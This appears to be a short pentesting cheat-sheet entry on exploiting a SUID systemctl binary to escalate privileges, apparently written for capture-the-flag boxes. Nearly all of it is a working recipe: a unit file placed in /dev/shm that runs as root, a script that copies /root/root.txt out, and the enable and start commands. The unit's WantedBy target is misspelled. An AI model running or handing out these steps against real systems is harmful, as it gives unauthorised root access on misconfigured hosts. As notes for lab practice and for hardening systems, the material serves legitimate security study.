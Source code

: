 # systemctl

> Introspect and control the state of the `systemd` system and service manager.

---

## Exploit [[suid]] `systemctl`

### Define the service (i.e., `/dev/shm/tgihf.service`)

```
[Unit]
description=tgihf

[Service]
Type=simple
User=root
ExecStart=/dev/shm/tgihf.sh

[Install]
WantedBy=mutli-user.target
```

### Write the script to execute with elevated privileges (i.e., `/dev/shm/tgihf.sh`)

```bash
#!/bin/bash
cat /root/root.txt > /tmp/root.txt
```

Ensure that it is executable! `chmod +x /dev/shm/tgihf.sh`

### Enable the service

```bash
systemctl enable /dev/shm/tgihf.service
```

### Start the service

```bash
systemctl start tgihf
```